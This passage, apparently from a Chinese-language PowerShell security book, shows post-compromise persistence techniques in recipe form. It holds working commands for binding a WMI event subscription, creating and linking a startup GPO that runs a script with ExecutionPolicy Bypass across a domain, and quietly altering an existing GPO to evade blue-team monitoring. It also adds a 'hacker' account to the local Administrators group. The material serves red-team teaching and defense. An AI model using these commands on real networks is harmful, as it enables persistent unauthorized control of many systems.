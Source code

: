 在我们的示例中，消费者被称为**WMIPersistenceConsumer**，它的配置是绕过执行策略并运行**C:\windows\system32\HelloWorld.ps1**脚本。

最后但同样重要的是，我们需要将它们*绑定*在一起——即，过滤器和消费者：

```
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{Filter=$filter;Consumer=$consumer}
```

现在绑定已经创建，PowerShell 脚本将每天早上 7:00 执行。

### 使用组策略对象建立持久性

你已攻破了 DC，并希望通过**组策略对象**（**GPOs**）建立持久性。这样做的好处是，GPO 会反复应用到所有已配置的系统。如果 GPO 没有被删除或修改，你的 payload 将在成千上万的系统上始终执行。

#### 解决方案

你需要创建一个新的 GPO，在启动时运行你的 PowerShell 脚本或命令。这可以通过**组策略管理控制台**（**GPMC**）或 PowerShell 来完成。在这个示例中，我们使用 PowerShell 来创建 GPO：

```
$gpo = New-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld.ps1"
```

在这个示例中，我们创建了一个名为**PersistentScript**的 GPO。接下来，我们在启动文件夹中添加一个组策略注册表值，并将其配置为每次系统启动时通过 PowerShell（使用**ExecutionPolicy Bypass**参数）运行我们的脚本。这样，脚本将在组策略应用的每个系统启动时运行，无论执行策略如何配置。

最后，刚创建的 GPO 只需要应用到一个或多个目标系统。这可以通过**New-GPLink** cmdlet 来完成：

```
> New-GPLink -Name "PersistentScript" -Target "DC=domain,DC=local"
```

修改现有的 GPO 也是攻击者可能使用的选项，尤其是在权限不够严格的情况下。虽然新创建的 GPO 可能引起怀疑，但修改现有的 GPO 可能会避开蓝队的监控：

```
$gpo = Get-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld-Modified.ps1"
```

请注意，使用 GPO 作为建立持久性的手段，仅在你拥有适当的权限时有效。

### 创建一个新的用户帐户并将其添加到一个组中

你想创建一个新的用户帐户并将其添加到一个组中。

#### 解决方案

有多种方法可以实现你的目标。例如，你可以结合使用 **New-LocalUser** 和 **Add-LocalGroupMember** 来创建一个新用户并将其添加到现有组中：

```
> $pass = ConvertTo-SecureString "Hacked!123" -AsPlainText -Force
> New-LocalUser -Name hacker -Password $pass
> Add-LocalGroupMember -Group Administrators -Member hacker
```
